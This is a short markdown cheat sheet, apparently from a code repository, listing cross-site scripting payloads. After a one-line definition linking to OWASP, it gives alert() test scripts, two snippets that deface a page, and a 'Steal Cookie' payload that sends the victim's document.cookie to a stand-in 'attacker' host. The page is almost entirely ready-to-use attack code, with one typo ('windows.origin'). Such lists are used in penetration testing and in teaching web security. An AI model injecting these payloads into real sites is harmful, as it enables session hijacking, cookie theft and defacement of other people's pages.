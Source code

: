 # XSS payloads

[Cross-Site Scripting](https://owasp.org/www-community/attacks/xss/) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.

## Basic XSS test payloads
```html
<script>alert(1)</script>

<script>alert(document.domain)</script>

<script>alert(windows.origin)</script>

<script>alert(window.localStorage)</script>

<script>alert(window.document.cookie)</script>

<script>alert(String.fromCharCode(0x58,0x53,0x53))</script>
```

## Deface HTML
```html
<!--change text -->
<script>document.querySelector('#id').textContent = 'new'</script>

<!--change background color-->
<script>document.body.style.backgroundColor = "red"</script>
```

## Steal Cookie
```html
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```
